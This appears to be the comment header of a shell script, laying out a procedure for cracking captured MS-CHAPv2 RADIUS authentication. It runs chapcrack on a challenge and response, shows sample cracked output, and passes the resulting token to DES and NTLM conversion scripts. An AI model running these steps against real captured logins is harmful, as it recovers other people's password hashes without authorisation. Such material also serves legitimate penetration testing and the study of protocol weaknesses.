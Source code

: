 #run chapchrack with the mschap challenge and response https://github.com/moxie0/chapcrack
#python2 chapcrack.py radius -C 44:80:58:11:a0:e2:09:4f -R c4:ef:da:98:b2:c1:4a:c2:f7:10:c9:4d:15:1e:9f:df:b0:31:f4:27:62:ec:31:ad
#
#results look like this
#Cracking K3........
#                     C1 = c4efda98b2c14ac2
#                     C2 = f710c94d151e9fdf
#                     C3 = b031f42762ec31ad
#                      P = 44805811a0e2094f
#                     K3 = 5f910000000000
#CloudCracker Submission = $99$RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=
#
#copy the cloudcracker submission without the $99$
#https://hashcat.net/forum/thread-5912.html
#
#run chapcrack-des.sh
#chapcrack-des.sh RIBYEaDiCU/E79qYssFKwvcQyU0VHp/fX5E=
#
#DES-ntlm.sh
#
#des-to-ntlm.sh
